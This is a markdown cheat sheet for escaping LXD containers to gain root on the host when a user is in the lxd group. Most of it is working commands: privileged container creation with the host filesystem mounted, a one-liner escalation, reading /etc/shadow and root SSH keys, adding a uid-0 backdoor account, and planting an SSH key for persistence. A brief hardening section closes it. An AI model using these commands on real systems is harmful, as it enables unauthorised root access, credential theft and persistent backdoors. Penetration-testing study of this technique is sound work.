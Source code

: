 # 🐳 LXD Container Escape

## 🎯 Overview

LXD (Linux Daemon) container manager can be exploited for privilege escalation when user is member of `lxd` group through privileged container creation and host filesystem mounting.

## 🔍 Prerequisites

### Check LXD Group Membership
```bash
# Check if user is in lxd group
id | grep lxd
groups | grep lxd

# Example output:
# uid=1000(user) gid=1000(user) groups=1000(user),116(lxd)
```

## 🚀 Exploitation Methods

### Method 1: Existing Container Image
```bash
# List available images
lxc image list

# If image exists, create privileged container
lxc init image_name privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/bash

# Access host filesystem as root
cd /mnt/root/root
```

### Method 2: Import Custom Image
```bash
# If ubuntu-template.tar.xz or similar exists
lxc image import ubuntu-template.tar.xz --alias ubuntutemp

# Create privileged container
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc
lxc exec privesc /bin/bash

# Root access to host filesystem
ls -la /mnt/root/
```

### Method 3: Build Alpine Image (if needed)
```bash
# Download Alpine image
wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
chmod +x build-alpine
sudo ./build-alpine

# Import and use
lxc image import alpine*.tar.gz --alias alpine
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc start privesc  
lxc exec privesc /bin/sh
```

## 🔧 LXD Initialization

### First-time Setup
```bash
# Initialize LXD (if not already done)
lxd init

# Use defaults for all prompts:
# - Storage pool: yes (dir)
# - Network: no
# - Bridge: yes (may fail, but proceed)
```

## 🎯 Post-Exploitation

### Host System Access
```bash
# Inside privileged container
cd /mnt/root

# Access host root directory
cd /mnt/root/root

# Read sensitive files
cat /mnt/root/etc/shadow
cat /mnt/root/root/.ssh/id_rsa

# Create backdoor user on host
echo 'backdoor:$6$salt$hash:0:0:root:/root:/bin/bash' >> /mnt/root/etc/passwd

# Add SSH key for persistence
mkdir -p /mnt/root/root/.ssh
echo "ssh-rsa AAAA..." >> /mnt/root/root/.ssh/authorized_keys
```

## 🔍 Detection & Enumeration

### Quick LXD Check Script
```bash
#!/bin/bash
echo "=== LXD PRIVILEGE ESCALATION CHECK ==="

echo "[+] LXD group membership:"
id | grep lxd && echo "  [!] User is in lxd group!"

echo "[+] Available LXC images:"
lxc image list 2>/dev/null

echo "[+] Existing containers:"
lxc list 2>/dev/null

echo "[+] LXD service status:"
systemctl status lxd 2>/dev/null

echo "[+] Container templates in current directory:"
ls -la *.tar.* 2>/dev/null
```

### LXD Service Check
```bash
# Check if LXD is running
systemctl status lxd
ps aux | grep lxd

# Check LXD socket
ls -la /var/lib/lxd/
ls -la /var/snap/lxd/
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Group membership
id | grep lxd

# Available resources
lxc image list
lxc list
ls -la *.tar.*  # Local container images
```

### Emergency Escalation
```bash
# If LXD group confirmed and image available
lxc init image_name root -c security.privileged=true
lxc config device add root host disk source=/ path=/mnt/root recursive=true
lxc start root
lxc exec root /bin/bash
cd /mnt/root/root
```

### One-liner Escalation
```bash
# Complete LXD escalation (if alpine image exists)
lxc init alpine pwn -c security.privileged=true && lxc config device add pwn host disk source=/ path=/mnt/root recursive=true && lxc start pwn && lxc exec pwn /bin/sh && cd /mnt/root
```

## ⚠️ Defensive Considerations

### LXD Security Issues
- **Group membership** automatically grants container privileges
- **Privileged containers** bypass security isolation
- **Host filesystem access** via device mounting
- **No password required** for lxd group members

### Hardening Recommendations
```bash
# Remove users from lxd group
sudo deluser username lxd

# Disable LXD service if not needed
sudo systemctl disable lxd
sudo systemctl stop lxd

# Monitor LXD usage
journalctl -u lxd
```

---

*LXD group membership provides a direct path to root privileges through privileged container creation - the isolation boundary disappears when containers can mount the host filesystem with root access.* 
